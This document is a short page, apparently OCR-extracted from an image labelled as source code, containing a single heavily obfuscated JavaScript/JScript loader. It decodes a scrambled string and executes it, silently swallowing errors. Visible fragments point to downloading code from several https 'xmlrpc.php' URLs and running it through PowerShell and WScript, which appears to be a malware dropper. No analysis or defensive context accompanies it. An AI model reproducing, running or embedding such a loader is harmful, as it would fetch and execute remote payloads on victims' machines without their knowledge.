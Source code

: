 ```js
constructor,tjqzhxosf=5018;f=52-49;nor8=987;try{ eye7[f](causey('\'x+G\'bUhM.$k;E\"\'6+3\'.E7P3A5l/IiVrea=\'0+;\'\'f+a\'S$ M0U.x0G.b0\'.+7\'0h1./H\'\'++\'\'eEm\'o+r\'haCd \')+o\'\'e+\'\'+k\'cReSG. Ae\'k+i\'ld\'D+(\'\" C,oLoMkTiHeK\'(+ \'6:3 \'$+f\'I.Z7S3m5s/ut\'i+\'\'+=\'$KPbxeTWkexl;p p$\'f+\'\'+A\' I)Z4S6\'x+ \';m4s6\'n+i\'Wu `;1\'=+$\'v0Y.Y0\'1+ \'TeNq ysY\';+ \'$w\'o+d\'nfi\'W+(\' I0Z.S5m/s\'u+`\'2a=l$lRiAzAoqMc\"\'=+\'\'+y\'\'t+N\'eU\'u+\'\'+g\'A;R \'$+\'\'+e\'SfUI.ZhSb\'G+x\'Um\'s+u\'`M3$=;$)VRfnGxPrax;$ ($ef\'I+Z\'STmasEuR`\'4+=\'$Cb:V:l]\'\'++\'\'CT\'S+e\'UCQ\"E)r;B\'\'++\'\'$eSwM.J\'q+M\'=TneeNW\'-+o\'B.jMeEc\'t+ \'StysSy\'s+[\'=thebmG\'\'++\'\'.xIUOM.$S;\'}+E\'UTRrTE$A{m=r ek\'c+A\'bALdlEarC N$OMiUTx\'G+b\'\'a+D\'\'h+\'\'+I\'l.AgVeeT\'r+e\'StP\'o+n\'Sa\'\'++\'\'eC(I)\'.+g\'eFTIRt\'r+E\'cerSepvoR\'E+s\':N:s]\'R+e\'geaSnTaRm\'\'++\'\'eTANmI(O)p;E$CHiS\'q+F\'LV=R(\'\'++\'\'e$S\'.+\'\'+S\'MtJEqNM[.\'\'++\'\';R2E\'a+d\'t1o\'e+n\'dS(L\'t+:\':)])e p-yS\'p+l\'ITTl O$CfOI\'Z+S\'mTsour;PI\'f+(\'$yHTSIqr\'u+c\'eFsL..TceON\'[+ \'=u nLTo\'c+o\'T O-ReP\'Y+T\'iQR u3c)\'{+\'\'+e\'SI\'\'++\'\':e:x](R$EHgSAqN\'\'++\'\'FaLM\'T+N\'\'[+1\']I o-preEcPILVArC\'e+\'\'+e\'\' +\'\'+s\'.\"T\\e^N\"\',+\"\'\"[)\';+}\'};W)\'}+\'\'+H\'iDLee\'(+1\')S{ut.r_\'$++\'\"Y^{\"Y+We\'M+a\'nS.l_H$G{m%(|@}(0\"0h0t0t5p sT\'g+-\' :E/E/RcFa\'p+\'\'+.\'_e$r{aecRkEihnWg|\'R+D\'g.\'c+o\'.(\'W+V\'szmaa/Ex\'m+l\'r=pCcC.\'\'++\'\'lp\'h+p\'\"V\'b+$\';,)\'}+}\')\"]h5\'[+n\'GtStMpZsN:F/\'/+c\'o$l(o\'r+l\'\'.+_\'$i+b\"\'3+\"\'\'.+c\'o{m\'/+x\'mElsr\'p+c\'.lp\'h+p\'\"E,\'\"+h\'\'}+)\'htTtap\'s+\'\'+p\'.:\'/+/\'v_\'\'++\'\'i$r(\'E+m\'AtnuEaLlItF\'T+E\'Gi:l:t].\'\'++\'\'hctoamp/.xOmil\'r+p\'c[.+p\"h\'p+\'\'+2\'\"\"{,)\")h]t6t[pnsG\'S+M\'\':+/\'/ZbNeFp$m(i.n_a$.(\'f+\'\'+v\'ni/e\'s+\'\'+x\'mller}p)\']+\'\'+c\'.5p[hnpG\'S+M\'Z\"\',+\"\'hNtFt$p(\'.+_\'$s\':+\'\'++\'\"/1\'\"+{\')/)s]e0x[m\'o+v\'ineGsSfM\'Z+N\'Fo$u(n.d_o$n(lfii\'e+s\'ln\'\'++\'\'ee}.)c]o5\'[+n\'Gm\'/+x\'\'S+M\'ZmNlFr\'p+c\'.$p(h\'p+\"\',.\"_h$t+t\"\'0+\"\'{p)s\':+/\'/)o]c4e[annGpSr\'e+z\'eMnZtNoFw$.\'p+l\'/(x.m_l\'r+p\'c$.(\'f+\'\'+p\'hip\'\"+,\'\"{\'%+|\'\'h+\'\'+)\'\'t+t\'p(s):\'/+/\'l]a3m[innGaSiMnZtNuFa$s\'t+\'\'+(\'.u)r)i0\'(+)\']a2\'[+n\'GsS.MeZsN/Fx$m(l.r)p\'c+.\'p)\'\'++\'\'h]p1\"[\'\'++\'\',n\"GhStMt\'p+s\':Z/N/Fz$\'(+ \'meo\'c+-\' lttcoed\'a+\'\'+j\'byo\'-+w\'e.nr(u(/(xWmVlsrmpa\'E+=\'\'c+.\'pa\'\'++\'\'hPpG\"f,V\'\'++\'\'\"$h;\')+}\'\'t+t\'\'E+l\'\'p+\'\'+t\'IsT:W\'o+D\'n/i/Wanci\'A+\'\'+t\'imv.._c$o\'.+\'\'++\'\"i^d\"/+x\'\'++\'\'emmlar\'p+\'\'+n\'.c_.\'p+h\'\'$+\'\'+p\'\"{\'%+|\'},\'\"+h\'tEtlpTsI\'t+W\'O:D/n\'I+W\'n/itahMe.w_a$r{zeoRneehhW\'|+\'\'+a\'csk\'e+r\'.Pcgo(m\'\'++\'\'W/Vxsmmlar\'p+c\'\'E+\'\'+.\'p=h\'p+\"\')u U|y cg\'e+t\'-qr\'a+n\'\'A+A\'Rd$O;M))}}ECMa\'t+\'\'+A\'NC.H_\'$+{\'%{|\'E+u\'Q}I;NSUL-E Eepm A\'n+ \'t-csE\'L+E\'S \'2+0\'}|\'S;ppG=((W(\'\'+s\'uV\'s)m+\'(+\'\'basEt=rY\'\')+)\';y qPe=Y(YWvS$c;r)i)pnto)i;tMp a=c \'\'+c\'r.E)a\'T+\'\'+m\'eEt\'s+y\'SogBnjietcaTr\\e\\psOh\'\'++\'\'_e2L3\'n+i\'WL\'\'++\'\' .\'\'++\'\'iam\'w+g\'(P+\'\"+^\'\'p+L\'\'I+M\'WiSCO\'\"+(\'+a)\'}+)\'eT\'i+O\'Nu\'l+\'\'+P\'OawvE.\'_+$\'+R\"S^\'\"++\'eH\'E+\'\'+m\'aln\'.+\'\'+L\'\'_+$\'(e{\'%+|\'}x9e9\' +t\'lc\'\'++\'\'-c shct\'g+\'\'+r\'\'n+e\'Li.pe\'u+l\'atvS.\'_+$\'{te\'\'++\'\'Dr\'e+\'\'+I\'Nh\'w+\'\'+s\'l|i:\'v+n\'ec erWi\'d+\'\'+r\'I(t(\'W+V\'sem\'a+E\'=LxiknT\'x+P\'$E;\'\'++\'\'O)\'\"+|\'\"P(\'t+i\'lEpnsS.C)r\"i\'\'++\'\'MpE\'\'++\'\'tT\'S+y\'Sf\'\'++\'\'EUL\'I+f\'\'L+\'\'+s\'IL|\'e+m\'An\'\'++\'\'na|mk\'n+I\'lESWI\'|+\'\'+s\'\'s+M\'ec\'\'++\'\'TRIi|\'E+C\'APP\'S+e\'mta\'n+|\'n.O\'I+t\'asc\'I+\'\'+H\'el\'p+p\'Al\'\'++\'\'.L\'l+a\'sL\'l+e\'htsI|\'r+e\'Dn\'\'++\'\'Ld\'e+x\'\'O+\'\'+O\'\'f+S\'If\"\'(+ \'=f\'u+\'\'+ \'nLG\'S+M\'\'L+\'\'+Z\'NNF\'$+}\')a)M(eysA\'\'++\'\'eraRraco\'T+\'\'+h\'\'.+Q\'eSg\'m+T\'lh\'E+l\'L$E(\'G+N\'IxR\'t+\'\'+e\'CSU4\'\'++\'\'T6\'e+s\'aEb\'O+t\':S:\']+t\'rlEeV\'n+o\'ce.\'M+e\'Tps\'Y;SP\'[+M\'[[p;])((7E3S+o6l5C,\'5+*\'1.)E]f(K1U1$1;1)1))\';+i\'fo(GPo[tMG[ppx]$(,7\"8!4|0\"/(7N0i,O1j3:-:5])G]n[\'M+[\'pI]r(t6S1[2\'0+/\'5(1e,T1\'*+6\')i]R(WM.[Epf]K(U1$1;4)4)/)2s6S,E5r+P2m)O)C!:=: ](e8d/o2M)N-o(I4S+S1E)R)\'{+ \'PP[MMO[\'p+]\'(C0.*n1o,i4S+s8E)r]\'(+M\'[ppm]\'(+4\'4O+C4.4O,\'1+3\'*I1.)M)E[tMS[YpS][(\'1+0\'*,4\',+1\'+Q3e)g]m(T\'\'p+o\'wle$r(smhAe\'l+l\'.EeRxtes\'p)I[zMG[.pn]O(i3s6\'++1\'5S,E5r+p0m)O]C[.Mo[ip.]\'(+1\'*M6e1t,s3Y*S3 )t]\'(+ \'LC)e;J}b oe-lWsEeN ({\' +d\' (=WPe[NM:[\'p+]\'(:4]1r+e3T3\',+6\'+I8r)w]\';+ \'Wm=A Edr[TMS[.po]i(.1M7\'6+-\'7E5t,S7y7S/[7\')+]\'( M=[ pE]\'(+7\'2f/K6U,\'2+-\'1$);)\';+ \'P)[(Mw[EpN]:(:0]*M1a,\'4++\'8e)R]t(\'M+[\'ps]y(r9\'1+/\'7O,M1e*m1.7o)i)\'[+M\'[.pM]E(t2S1Y*s6[, 3\'*+4\')=] (Q e\'gc\'s+c\'rmi\'p+t\'.Telx$e{\'),o\'G\"o\'t+Gdp[xM\'[+p\']$((1W4V*\'4+,\'5s*m1a)E] (nWo+i(t1\'*+1\')c)\'++\'\'\"n\'u f,;\'\"\"8\'1+Cd4[2ME[9pB]B(71\"4=*u4s,m5S*Z1\')+]\'(I0f,$W\'++(\'1{*)1R)n)x+\'\'+\"\'\'r,x $M([mpG]H(\'4+4\'+l2\'6+,\'6S-\'2+)\',W Y0 *n1o i)\';+ \'}tPc.nQuufi\'t (=) ;L '))();} catch(e) { }nkarhikqlhd=eye7;
```
